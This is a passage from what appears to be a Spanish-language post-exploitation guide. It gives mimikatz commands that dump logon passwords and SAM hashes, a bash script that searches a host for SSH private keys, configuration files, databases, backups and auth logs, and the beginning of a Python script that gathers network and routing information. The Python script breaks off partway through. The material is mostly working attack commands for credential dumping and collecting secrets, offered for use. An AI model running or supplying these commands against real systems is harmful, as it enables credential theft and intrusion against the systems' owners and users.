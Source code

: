 ```bash
mimikatz.exe "sekurlsa::logonpasswords"
mimikatz.exe "lsadump::sam"
```

### 2. Archivos y Datos Sensibles

```bash
# Script de búsqueda de archivos sensibles
#!/bin/bash
# sensitive_files.sh

echo "[+] Buscando archivos sensibles..."

# Documentos comunes
find / -name "*.doc" -o -name "*.docx" -o -name "*.pdf" -o -name "*.txt" 2>/dev/null | head -20

# Archivos de configuración
find / -name "*.conf" -o -name "*.config" -o -name "*.cfg" 2>/dev/null | head -20

# Bases de datos
find / -name "*.db" -o -name "*.sqlite" -o -name "*.sql" 2>/dev/null

# Llaves SSH
find / -name "id_rsa" -o -name "id_dsa" -o -name "*.pem" 2>/dev/null

# Archivos de backup
find / -name "*.bak" -o -name "*.backup" -o -name "*~" 2>/dev/null | head -20

# Logs del sistema
ls -la /var/log/
tail /var/log/auth.log
tail /var/log/apache2/access.log
```

### 3. Información de Red y Sistema

```python
#!/usr/bin/env python3
# network_info.py - Recolector de información de red

import subprocess
import socket
import json

def get_network_info():
    """Recolectar información de red"""
    info = {}
    
    # Interfaces de red
    try:
        result = subprocess.run(['ip', 'addr'], capture_output=True, text=True)
        info['interfaces'] = result.stdout
    except:
        pass
    
    # Tabla de rutas
    try:
        result = subprocess.run(['ip', 'route'], capture_output=True, text=True)
        info['routes'] = result.stdout
    except:
        pass
    
    # ARP table
    try:
```